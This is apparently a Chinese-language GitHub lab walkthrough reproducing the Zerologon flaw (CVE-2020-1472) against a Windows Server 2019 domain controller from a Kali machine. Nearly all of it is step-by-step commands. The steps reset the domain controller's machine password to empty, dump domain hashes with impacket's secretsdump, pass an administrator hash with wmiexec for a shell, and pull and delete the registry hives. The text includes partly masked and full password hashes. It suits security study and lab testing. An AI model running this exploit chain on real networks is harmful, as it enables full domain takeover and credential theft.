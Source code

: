 域环境搭建参见：https://github.com/ybdt/post-hub/blob/main/7-横向移动/2021_07_03_域环境搭建/readme.md

受害机器：Win2019_x64_zh-cn  
攻击机器：kali  

```
git clone https://github.com/risksense/zerologon
git clone https://github.com/SecureAuthCorp/impacket
cd ./impacket && pip3 install .
```

复现过程共5个步骤

步骤1：在第一个终端下置空域控的机器用户密码：
```
cd ./zerologon
python3 ./set_empty_pw.py WIN-184MQ8D0KOO 192.168.202.138
其中WIN-184MQ8D0KOO为域控的计算机名，192.168.202.138为域控的ip地址
定位域控可通过命令：net time /domain
```
![image](./pic/1.png)

步骤2：在第二个终端下提取域控中存储的密码哈希：
```
cd ./impacket/examples/
python3 ./secretsdump.py -no-pass -just-dc ybdt.best/WIN-184MQ8D0KOO\$@192.168.202.138
这里要注意$前有一个\，否则会报错名字或服务未知
```
![image](./pic/2.png)
此时可以试着解密一下administrator的hash，如不能解密，可尝试后续攻击

步骤3：在第三个终端下使用提取的administrator的密码哈希执行命令，拿到伪交互式shell：
```
cd ./impacket/examples/
python3 ./wmiexec.py ybdt.best/administrator@192.168.202.138 -hashes :a87f3a337d********f9416be5787d86

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
lget sam.save
lget security.save
lget sysetm.save
del sam.save
del security.save
del system.save
这里要注意，之前的文章都是get sam.save，但我这里查看帮助发现，命令变为了lget
```
![image](./pic/3.png)

步骤4：在第四个终端下提取原机器用户的密码哈希
```
python3 secretsdump.py -sam sam.save -system system.save -security security.save local
```
![image](./pic/4.png)

步骤5：在第五个终端下恢复原机器用户的密码哈希
```
python3 ./reinstall_original_pw.py WIN-184MQ8D0KOO 192.168.202.138 cdd6d0988b04bd41da9de139f571b4ec
```
![image](./pic/5.png)  
再次执行密码提取则会失败  
![image](./pic/6.png)  

参考链接：  
http://www.saferoad.cc/notes/661.html  
https://www.anquanke.com/post/id/219374  
https://atsud0.me/2020/10/24/CVE-2020-1472%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
